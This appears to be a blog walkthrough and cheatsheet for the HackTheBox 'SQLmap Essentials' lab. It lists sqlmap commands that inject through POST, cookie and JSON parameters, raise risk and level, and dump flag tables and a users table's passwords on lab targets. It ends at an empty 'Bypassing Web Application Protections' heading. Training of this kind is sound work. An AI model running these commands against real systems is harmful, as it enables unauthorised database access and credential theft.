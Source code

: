 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-01-07 00:00:00 +0300
categories: [SQLmap Essentials]
tags: [SQLmap Essentials, cheatsheet, HackTheBox]
---
```



# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

While I wait for the final skill assessment payload to get the flag which is taking a little too long I decided to write this walkthrough. It is among the labs I enjoyed much during the Bug Bounty Path.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


`1. What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

`sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2` 

From the command:


    --data - speecifies that the HTTP data provided should be sent in a POST request.

    id=*1 - This is the parameter of interest. The asterisk is a custom injection marker. 

    --batch - allows the running of the command without any user input.

    --dump - displays data from a specified database table.

    -T - specifies database table.


`2. What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

`sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3`

From the command:

    --cookie - specifies the HTTP cookies that should be sent with the POST requests.


`3. What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


`sqlmap -r req.txt  --batch --dump  -T flag4 `

While it is applicable in this lab, we may also use the following command.

`sqlmap -u 'http://94.237.50.242:49319/case4.php'  --data={'"id":1'} --batch --dump  -T flag4`

# Attack Tuning

Sqlmap comes right off the bat as a very strong tool, though it is capable to do more with some tuning by using flags that increase the accuracy of your scan. These may include flags for Level/Risk, Status Codes, Text and Techniques etc.

In this section we will use some of the above-mentioned flags that will dig deeper in our scans to achieve our goals. Follow me as we do it.

Questions

`1. What's the contents of table flag5? (Case #5) `

This challenges indicaes an OR SQLi vulnerability for the parameter 'id'. For this we will have to use the Level/Risk flags by raising the risk level. This is done because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements are actively modifying the database content. 

`sqlmap -u http://83.136.248.62:52853/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5`

`sqlmap -u http://83.136.248.62:52853/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5 -dbs testdb -dbms MYSQL`

From the command:

     --no-cast - This flag ensures that you get the correct content. 
     --risk - [1-3]  extends the risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
     --level - [1-5] extends  boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
     --dbs - The database in question.
     --dbms - The underlying Database schema being used.

`2. What's the contents of table flag6? (Case #6)`

The challenge has a vulnerable parameter col. This challenge requires the use of the prefix flag.

`sqlmap -u 'http://83.136.248.62:52853/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'`

From the command:

    --prefix -  used to specify a prefix that will be added to the payloads sent by SQLmap during its testing process

`3. What's the contents of table flag7? (Case #7)`

The challenge has a vulnerable parameter at id and it is vulnerable using a UNION Query based technique. This means that we have to use the Union flag.

`sqlmap -u 'http://83.136.248.62:52853/case7.php?id=1' -T flag7 --dump --batch --risk 3 --level 5 --union-col=5`

From the Command:

    --union-col=5 - From the provided exercise we can manually count the columns in the table, so we include that in the command

# Database Enumeration

Database enumaration requires the knowledge of how to use flags in your command. The `man sqlmap` and `sqlmap --help` can be of help with this.

Questions

`1. What's the contents of table flag1 in the testdb database? (Case #1)`

This challenge requires to know the names of the Database containing the table in question and the Database schema type being used

`sqlmap -u 'http://83.136.248.62:52853/case1.php?id=1' -T flag1 --dump --batch --risk 3 --level 5 --dbms MYSQL -D testdb`

# Advanced Database Enumeration

Question

`1. What's the name of the column containing "style" in it's name? (Case #1)`

After looking into the sqlmap manual page we should now know what flag to use in order to get contents of the 'style' column

`sqlmap -u 'http://83.136.248.62:52853/case1.php?id=1' --batch --search -C "style"`

From the command: 

    --search -C - Used to search for databases, tables, and columns of interest. The -C flag represents columns.

`2. What's the Kimberly user's password? (Case #1)`

`sqlmap -u 'http://83.136.248.62:52853/case1.php?id=1' --dump --batch --columns -C name,password -T users`

 From the command:

    --column - Lists the columns specified

# Bypassing Web Application Protections







